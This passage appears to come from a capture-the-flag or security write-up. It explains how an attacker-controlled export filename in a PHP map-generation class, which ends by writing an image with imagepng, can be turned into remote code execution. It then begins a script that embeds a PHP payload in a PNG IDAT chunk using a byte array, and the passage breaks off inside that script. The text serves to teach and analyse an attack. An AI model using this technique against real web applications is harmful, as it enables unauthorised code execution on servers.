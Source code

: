 ```php
            $stamp,
            $this->x_coordinate,
            $this->y_coordinate,
            0,
            0,
            imagesx($stamp),
            imagesy($stamp),
            100
        );

        // create watermark with details
        $stamp = imagecreatetruecolor(420, 115);

        imagefilledrectangle($stamp, 0, 0, 419, 115, 0x0000FF);
        imagefilledrectangle($stamp, 9, 9, 410, 105, 0xFFFFFF);

        imagestring($stamp, 5, 20, 20, 'Track: ' . $this->uuid, 0x0000FF);
        imagestring($stamp, 5, 20, 40, 'X-Coordinate: ' . $this->x_coordinate, 0x0000FF);
        imagestring($stamp, 5, 20, 60, 'Y-Coordinate: ' . $this->y_coordinate, 0x0000FF);
        imagestring($stamp, 5, 20, 80, 'Last Updated: ' . date("Y/m/d H:i:s"), 0x0000FF);

        // Set the margins for the stamp and get the height/width of the stamp image
        $marge_right = 10;
        $marge_bottom = 10;
        $sx = imagesx($stamp);
        $sy = imagesy($stamp);

        // Merge the stamp onto our map
        imagecopymerge($map, $stamp, imagesx($map) - 450, 10, 0, 0, imagesx($stamp), imagesy($stamp), 50);

        // Save exported map
        $savePath = '/www/public/static/exports/' . $this->export_file;
        imagepng($map, $savePath);
    }
    [...]
}
```

This class will be used to get our remote code execution, as the last statement of the `generateMap()` function is `imagepng($map, $savePath);`, but we also control the `$this->export_file` variable as it is declared in the `SubscribeNotificationHandler` class.

Last but not least, this method does a lot of operations on the images it retrieves, which prevents us from using basic code execution techniques in the images (comments, ...).
To achieve this, I used Synacktiv's blog on [images](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html), and in particular the "IDAT chunk" method, with the following script:

```php
<?php
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0xD2, 0x88, 0xFC, 0x69, 0xD0, 0x2B, 0xB9, 0xB0, 0xFB, 0xBB, 0x79, 0xFC, 0xED, 0x22, 0x38, 0x49, 0xD3, 0x51, 0xB7, 0x3F, 0x02, 0xC2, 0x20, 0xD8, 0xD9, 0x3C, 0x67, 0xF4, 0x50, 0x67, 0xF4, 0x50, 0xA3, 0x9F, 0x67, 0xA5, 0xBE, 0x5F, 0x76, 0x74, 0x5A, 0x4C, 0xA1, 0x3F, 0x7A, 0xBF, 0x30, 0x6B, 0x88, 0x2D, 0x60, 0x65, 0x7D, 0x52, 0x9D, 0xAD, 0x88, 0xA1, 0x66, 0x94, 0xA1, 0x27, 0x56, 0xEC, 0xFE, 0xAF, 0x57, 0x57, 0xEB, 0x2E, 0x20, 0xA3, 0xAE, 0x58, 0x80, 0xA7, 0x0C, 0x10, 0x55, 0xCF, 0x09, 0x5C, 0x10, 0x40, 0x8A, 0xB9, 0x39, 0xB3, 0xC8, 0xCD, 0x64, 0x45, 0x3C, 0x49, 0x3E, 0xAD, 0x3F, 0x33, 0x56, 0x1F, 0x19 );
 
```